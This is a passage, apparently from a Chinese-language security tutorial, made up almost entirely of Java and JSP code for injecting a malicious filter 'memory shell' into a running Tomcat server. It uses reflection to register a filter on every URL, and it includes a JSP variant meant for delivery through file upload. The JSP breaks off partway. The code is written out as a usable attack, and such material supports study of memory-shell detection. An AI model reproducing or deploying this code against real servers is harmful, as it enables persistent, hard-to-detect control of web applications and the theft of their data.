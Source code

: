 ```java  
            o.setAsyncSupported(filter.getClass().getName());    
            standardContext.addFilterDef(o);    
            //反射获取FilterMap并且设置拦截路径，并调用addFilterMapBefore将FilterMap添加进去    
            Class&lt;?&gt; FilterMap = Class.forName(&#34;org.apache.tomcat.util.descriptor.web.FilterMap&#34;);    
            Constructor&lt;?&gt; declaredConstructor = FilterMap.getDeclaredConstructor();    
            org.apache.tomcat.util.descriptor.web.FilterMap o1 = (FilterMap)declaredConstructor.newInstance();    
            o1.addURLPattern(&#34;/*&#34;);    
            o1.setFilterName(Filtername);    
            o1.setDispatcher(DispatcherType.REQUEST.name());    
            standardContext.addFilterMap(o1);    
            //反射获取ApplicationFilterConfig，构造方法将FilterDef传入后获取filterConfig后，将设置好的filterConfig添加进去    
            Class&lt;?&gt; ApplicationFilterConfig = Class.forName(&#34;org.apache.catalina.core.ApplicationFilterConfig&#34;);    
            Constructor&lt;?&gt; declaredConstructor1 = ApplicationFilterConfig.getDeclaredConstructor(Context.class,FilterDef.class);    
            declaredConstructor1.setAccessible(true);    
            ApplicationFilterConfig filterConfig = (ApplicationFilterConfig) declaredConstructor1.newInstance(standardContext,o);    
            filterConfigs.put(Filtername,filterConfig);    
            response.getWriter().write(&#34;Success&#34;);    
    
        } catch (Exception e) {    
            throw new RuntimeException(e);    
        }    
    
    }    
    
    @Override    
    protected void doGet(HttpServletRequest req, HttpServletResponse resp) throws ServletException, IOException {    
        super.doGet(req, resp);    
    }    
}  
```  
如果是文件上传应该是.jsp文件  
```jsp  
&lt;%@ page contentType=&#34;text/html;charset=UTF-8&#34; language=&#34;java&#34; %&gt;  
&lt;%@ page import=&#34;org.apache.catalina.core.ApplicationContext&#34; %&gt;  
&lt;%@ page import=&#34;java.lang.reflect.Field&#34; %&gt;  
&lt;%@ page import=&#34;org.apache.catalina.core.StandardContext&#34; %&gt;  
&lt;%@ page import=&#34;java.util.Map&#34; %&gt;  
&lt;%@ page import=&#34;java.io.IOException&#34; %&gt;  
&lt;%@ page import=&#34;org.apache.tomcat.util.descriptor.web.FilterDef&#34; %&gt;  
&lt;%@ page import=&#34;org.apache.tomcat.util.descriptor.web.FilterMap&#34; %&gt;  
&lt;%@ page import=&#34;java.lang.reflect.Constructor&#34; %&gt;  
&lt;%@ page import=&#34;org.apache.catalina.core.ApplicationFilterConfig&#34; %&gt;  
&lt;%@ page import=&#34;org.apache.catalina.Context&#34; %&gt;  
&lt;%@ page import=&#34;java.io.InputStream&#34; %&gt;  
&lt;%@ page import=&#34;java.util.Scanner&#34; %&gt;  
  
&lt;%  
    final String name = &#34;Drunkbaby&#34;;  
    // 获取上下文  
    ServletContext servletContext = request.getSession().getServletContext();  
  
    Field appctx = servletContext.getClass().getDeclaredField(&#34;context&#34;);  
    appctx.setAccessible(true);  
    ApplicationContext applicationContext = (ApplicationContext) appctx.get(servletContext);  
  
    Field stdctx = applicationContext.getClass().getDeclaredField(&#34;context&#34;);  
```